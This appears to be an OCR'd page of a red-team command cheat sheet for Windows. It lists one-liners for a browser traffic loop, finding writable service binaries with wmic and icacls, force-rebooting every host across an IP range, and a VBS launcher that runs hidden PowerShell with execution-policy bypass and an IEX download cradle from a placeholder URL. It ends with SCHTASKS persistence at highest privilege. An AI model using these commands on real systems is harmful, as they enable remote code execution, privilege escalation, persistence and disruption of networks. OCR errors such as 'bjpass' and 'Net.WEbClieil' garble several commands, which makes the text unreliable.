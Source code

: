### Operation of IE web looper (traffic generator)

```text
for /L %C in (1,1,5000) do @for %U in (www.yahoo.com www.pastebin.com
www.paypal.com www.craigslist.org www.google.com) do start /b iexplore %U &
ping -n 6 localhost & taskkill /F /IM iexplore.exe
```

### Get access to executive services

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full | find /i
"pathname" I find /i /v "system32"') do @echo %a
c:\windows\temp\3afd4ga.tmp
for /f eol = " delims = " %a in (c:\windows\temp\3afd4ga.tmp) do cmd.exe
/c icacls ''%a''
```

### Spinning Reboot \(replace /R with /S to shutdown\):

```text
for /L %i in (2,1,254) do shutdown /r /m \\1.1.1.%i /f /t 0 /c "Reboot
message"
```

### Create a shell using vbs \(requires identity information\)

```text
# Create .vbs script with the following
Set shell wscript.createobject("wscript.shell")
Shell.run "runas /user: user " & """" &
C:\Windows\System32\WindowsPowershell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bjpass -nop -c \" & """" & "IEX ((New-
Object Net.WEbClieil':).downloadstring(' url '))\" & """" & """"
wscript.sleep(100)
shell.Sendkeys "password" & "{ENTER}"
```

## Scheduling the task

```text
Scheduled tasks binary paths CANNOT contain spaces because everything
after the first space in the path is considered to be a command-line
argument. Enclose the /TR path parameter between backslash (\) AND
quotation marks ("):
... /TR "\"C:\Program Files\file.exe\" -x arg1"
```

### Scheduling the task \(ST=start time, SD=start date, ED=end date\) \*need admin access

```text
SCHTASKS /CREATE /TN Task Name /SC HOURLY /ST HH:MM /F /RL HIGHEST /SD
MM/DD/YYYY /ED MM/DD/YYYY /tr "C:\my.exe" /RU DOMAIN/user /RP
password
```
